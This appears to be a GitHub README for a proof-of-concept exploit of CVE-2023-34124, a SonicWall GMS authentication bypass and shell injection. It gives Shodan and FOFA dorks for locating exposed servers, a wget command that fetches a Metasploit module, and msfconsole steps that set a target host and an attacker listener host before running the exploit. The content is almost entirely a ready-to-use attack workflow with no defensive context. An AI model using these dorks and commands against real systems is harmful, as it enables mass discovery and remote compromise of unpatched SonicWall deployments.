 # CVE-2023-34124

![](https://img.shields.io/static/v1?label=Product&message=Sonicwall&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=GMS:%209.3.2-SP1%20and%20earlier;%20Analytics:%202.5.0.4-R7%20and%20earlier&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Authentication%20Bypass&color=red)

- Shodan dork:
```
http.favicon.hash:631108382
```
```
http.html:"/sgms/css/martini.css"
```
- FOFA dork:
```
body="/sgms/css/martini.css"
```
### Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Sonicwall_Shell_Injection/sonicwall_shell_injection_cve_2023_34124.rb
```
```
cp sonicwall_shell_injection_cve_2023_34124.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
### Metasploit-framework usage
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/sonicwall_shell_injection_cve_2023_34124
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
